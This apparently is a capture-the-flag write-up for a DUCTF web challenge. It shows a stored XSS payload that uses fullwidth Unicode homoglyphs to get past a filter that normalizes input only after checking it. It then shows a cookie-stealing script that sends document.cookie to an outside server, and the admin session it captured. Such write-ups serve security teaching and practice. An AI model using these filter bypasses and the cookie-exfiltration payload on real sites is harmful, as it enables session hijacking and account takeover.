






# Chanreaction
**Category: Web**

The only thing available to do on this page was to create an account. Let's do that and log in:

</img>

The login page also had a link to a developer portal, let's check that out:

</img>

The site prevents us from accessing `/admin` 😢.

Let's look at `/devchat` in the meanwhile. Here's a particularly interesting snippet of the chat:

</img>

Looks like there is a vulnerability where unicode is getting normalized *after* the check for malicious characters. 

If you aren't familiar, unicode normalization is a process that can be used to determine if two different unicode strings should be seen as equal. Two unicode symbols are **canonically equivalent** if they should both be displayed the same way. And two symbols have **compatible equivalence** if they look different, but represent the same abstract character. More information on [unicode.org](https://unicode.org/reports/tr15/).

Next, we'll take a look at our profile page:

</img>

The note at the bottom is attention grabbing. If we can make an admin visit our page, perhaps we can use some XSS to steal their cookies?

First, we can do a test to see if the `<>` characters are usable for our attack:

```http
POST /profile/5619 HTTP/2
Host: web-chainreaction-a4b5ae3b.chal-2021.duc.tf
Cookie: session=.eJwlzjsOwjAMANC7ZGaI7TiJe5nK8UdlbemEuDtIvBO8d9nzjOso2-u841H2p5etWDiSLx1kwZSYwyBNCUNoqaH31kdIeOdISp2rBtbE1kgFbJAu1FadY4nYVETjWknnTJQBQeBg1Nlg8eQknNK4Wm1qQoaj_CL3Fed_wx2kfL7grjCG.YVG6ZQ.Qb_SzTdB-r2q-f6x8CN4tEF-m2Y

username=bobbytables&aboutme=<>
```

</img>

I guess not. We'll have to get around this using some unicode.

Looking at the html response for an accepted payload (I tried `test`), we can see our value goes inside the `input` tag. We'll need to remember to break outside that tag before starting the payload:

```html
<label for="aboutme" class="col-sm-2 form-label">About me</label>
<div class="col-sm-10">
  <input type="text" name="aboutme" class="form-control" id="aboutme" value="test">
</div>
```

I used a [homoglyph attack generator](https://www.irongeek.com/homoglyph-attack-generator.php) to generate a test payload of `"><script>alert(1)</script>` that used normalized equivalent characters for the `<` and `>` symbols. I also used a different character for the `s` since their site also blocks the string `script`. This gives us: `"＞＜Ｓcript＞alert(1)＜/Ｓcript＞`.

After url encoding:
```http
POST /profile/5619 HTTP/2
Host: web-chainreaction-a4b5ae3b.chal-2021.duc.tf
Cookie: session=.eJwlzjsOwjAMANC7ZGaI7TiJe5nK8UdlbemEuDtIvBO8d9nzjOso2-u841H2p5etWDiSLx1kwZSYwyBNCUNoqaH31kdIeOdISp2rBtbE1kgFbJAu1FadY4nYVETjWknnTJQBQeBg1Nlg8eQknNK4Wm1qQoaj_CL3Fed_wx2kfL7grjCG.YVG6ZQ.Qb_SzTdB-r2q-f6x8CN4tEF-m2Y

username=bobbytables&aboutme=%22%EF%BC%9E%EF%BC%9C%EF%BC%B3cript%EF%BC%9Ealert(1)%EF%BC%9C/%EF%BC%B3cript%EF%BC%9E
```

Now, the page renders like:
```html
<label for="aboutme" class="col-sm-2 form-label">About me</label>
<div class="col-sm-10">
    <input type="text" name="aboutme" class="form-control" id="aboutme" value=""><Script>alert(1)</Script>">
</div>
```
And we get the popup:

</img>

Now we can try again with a payload to steal the admin cookies: 

`"＞＜Ｓcript＞var i = new Image;i.src="https://[my-server-url]?"+document.cookie＜/Ｓcript＞`

Request:

```http
POST /profile/5619 HTTP/2
Host: web-chainreaction-a4b5ae3b.chal-2021.duc.tf
Cookie: session=.eJwlzjsOwjAMANC7ZGaI7TiJe5nK8UdlbemEuDtIvBO8d9nzjOso2-u841H2p5etWDiSLx1kwZSYwyBNCUNoqaH31kdIeOdISp2rBtbE1kgFbJAu1FadY4nYVETjWknnTJQBQeBg1Nlg8eQknNK4Wm1qQoaj_CL3Fed_wx2kfL7grjCG.YVG6ZQ.Qb_SzTdB-r2q-f6x8CN4tEF-m2Y

username=bobbytables&aboutme=%22%EF%BC%9E%EF%BC%9C%EF%BC%B3cript%EF%BC%9Evar%20i%20=%20new%20Image;i.src=%22https://[my-server-url]?%22%2bdocument.cookie%EF%BC%9C/%EF%BC%B3cript%EF%BC%9E
```

After clicking the report button, the admin visited my profile, and my server received the following request:

```
GET /?admin-cookie=sup3rs3cur34dm1nc00k13
```

Now we can set this cookie in our browser, and try going to the admin page again:

</img>

`DUCTF{_un1c0de_bypass_x55_ftw!}`